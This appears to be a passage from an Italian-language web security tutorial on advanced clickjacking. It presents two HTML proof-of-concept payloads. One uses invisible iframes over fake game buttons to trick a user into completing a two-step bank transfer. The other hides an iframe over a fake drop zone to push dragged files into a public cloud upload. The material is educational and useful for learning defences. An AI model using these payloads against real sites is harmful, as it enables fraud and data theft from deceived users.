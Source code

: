 
## 19.5 Advanced Attacks

### 19.5.1 - Double Clickjacking

**Click multipli concatenati:**

```html
<style>
    #iframe1, #iframe2 {
        position: absolute;
        opacity: 0;
        z-index: 999;
    }
    
    #iframe1 { top: 100px; left: 100px; }
    #iframe2 { top: 200px; left: 200px; }
</style>

<h1>Gioca e vinci!</h1>
<button style="position: absolute; top: 100px; left: 100px;">
    Click 1
</button>
<button style="position: absolute; top: 200px; left: 200px;">
    Click 2
</button>

<iframe id="iframe1" src="https://bank.com/transfer-step1"></iframe>
<iframe id="iframe2" src="https://bank.com/transfer-confirm"></iframe>

<!-- User clicca due pulsanti "gioco" -->
<!-- In realtà completa trasferimento 2-step -->
```

### 19.5.2 - Drag & Drop Clickjacking

**File upload via drag-and-drop:**

```html
<style>
    #drop-zone {
        width: 300px;
        height: 200px;
        border: 2px dashed #ccc;
        text-align: center;
        padding: 50px;
    }
    
    #hidden-iframe {
        position: absolute;
        top: 0;
        left: 0;
        opacity: 0;
        z-index: 999;
        width: 300px;
        height: 200px;
    }
</style>

<div id="drop-zone">
    📁 Trascina file qui per caricare
</div>

<iframe id="hidden-iframe" 
        src="https://cloud-storage.com/upload-public">
```